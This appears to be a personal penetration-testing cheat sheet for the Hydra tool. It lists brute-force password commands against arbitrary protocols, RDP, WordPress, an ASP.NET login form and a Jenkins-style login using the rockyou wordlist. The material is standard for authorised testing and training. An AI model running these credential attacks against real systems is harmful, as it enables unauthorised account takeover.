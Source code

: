 [[Wordlists#Passwords]]

https://github.com/frizb/Hydra-Cheatsheet

```
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

| Command | Description |
| --- | --- |
| `hydra -P <wordlist> -v <ip> <protocol>` | Brute force against a protocol of your choice |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> ` | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip> ` | Attack a Windows Remote Desktop with a password list. |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force. |

Using template form:
```
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "/Account/log.aspx:_VIEWSTATE=KJLSAHaliudhAFDKSbhIU3iufb3fbc23p49&__EVENTVALIDATION=NJMBNASDKBADS989asd97ASD&9as7d97gasdgaS(dgasdgadsg9asdg%24username=admin%ctl00%24LoginUser%24Password=^PASS^%24LoginButton=Log+in:Login Failed"
```

Different port
```
hydra -s 5555 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:loginError"
```
